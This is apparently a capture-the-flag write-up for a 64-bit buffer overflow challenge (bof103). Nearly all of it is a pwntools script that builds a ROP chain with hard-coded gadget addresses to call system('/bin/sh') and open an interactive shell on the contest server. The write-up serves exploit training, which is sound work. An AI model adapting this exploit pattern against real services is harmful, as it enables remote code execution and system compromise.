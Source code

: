 This is again a buffer overflow, but this time we need to use a rop chain to call the `system` function, as this is a 64bit binary instead of a 32bite one. The following script was used to solve this:
```
#!/usr/bin/env python
# coding: utf-8
import sys
import time
from pwn import *


def main(args):
    p = None

    # toggle to remote with ./pwn.py remote
    #if len(args) == 3 and args[2] == "remote":
    p = remote("bof103.sstf.site", 1337)
    #else:
    #p = process("./bof103")
    #   #p = gdb.debug("./bof103", gdbscript='break bofme;set follow-fork-mode parent')

    #binary = ELF('./bof103')

    # Had to set the follow-fork-mode: https://visualgdb.com/gdbreference/commands/set_follow-fork-mode
    # Receiving untile
    print(p.recvuntil(b"> "))
    exploit = b"A"*16 + b"B" * 8
    # Setting up RDI
    exploit += p64(0x4007b3)
    exploit += b"/bin/sh\x00"
    # Setting up RSI
    exploit += p64(0x400747)
    exploit += p64(0x1)
    # Use useme function to set /bin/sh as the value of key
    exploit += p64(0x4006a6)
    # 0x00000000004007b0 : pop r14 ; pop r15 ; ret
    #exploit += p64(0x4007b0) # pop the following two values
    #exploit += p64(0x1337)
    #exploit += p64(0x1337)
    # Put key variable into rdi (pop rdi gadget + address of key variable)
    exploit += p64(0x4007b3)
    exploit += p64(0x601068)
    # Call system
    exploit += p64(0x400550)
    exploit += b"\n"
    print("[+] Sending our exploit")
    p.send(exploit)
    print("[+] Final output")
    # Note that if your program never ends, you will never see any output
    #print(p.recvuntil(b"\n"))
    p.interactive()
    sys.exit(0)

if __name__ == "__main__":
        main(sys.argv)
```
